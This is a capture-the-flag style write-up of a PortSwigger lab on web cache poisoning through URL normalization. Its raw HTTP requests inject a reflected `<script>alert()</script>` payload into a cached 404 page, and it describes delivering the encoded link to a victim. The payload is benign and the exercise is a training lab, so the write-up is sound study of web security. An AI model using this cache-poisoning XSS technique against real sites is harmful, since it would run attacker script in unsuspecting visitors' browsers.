 # [Lab: URL normalization](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-normalization)

## Lab

This lab contains an XSS vulnerability that is not directly exploitable due to browser URL-encoding.

To solve the lab, take advantage of the cache's normalization process to exploit this vulnerability. Find the XSS vulnerability and inject a payload that will execute `alert(1)` in the victim's browser. Then, deliver the malicious URL to the victim.

## Analysis

Reflected XSS (burpsuite's repeater):

```http
GET /<script>alert()</script> HTTP/1.1

HTTP/1.1 404 Not Found

<p>Not Found: /<script>alert()</script></p>
```

cannot trigger reflected xss through browser because the payload is url-encoded before sending to the server and the server doesn't decode it.

```http
GET /%3Cscript%3Ealert()%3C/script%3E HTTP/1.1

HTTP/1.1 404 Not Found

<p>Not Found: /%3Cscript%3Ealert()%3C/script%3E</p>
```

normalization applied to the cache key: url-encode

key `<script>alert()</script>` is the same as `%3Cscript%3Ealert()%3C/script%3E`

## Solutions

cache poisoning using burp's repeater with raw payload (not url-encoded):

```http
GET /<script>alert()</script> HTTP/1.1

HTTP/1.1 404 Not Found

<p>Not Found: /<script>alert()</script></p>
```

deliver link `/%3Cscript%3Ealert()%3C/script%3E` to victim => cached:

```http
<p>Not Found: /<script>alert()</script></p>
```
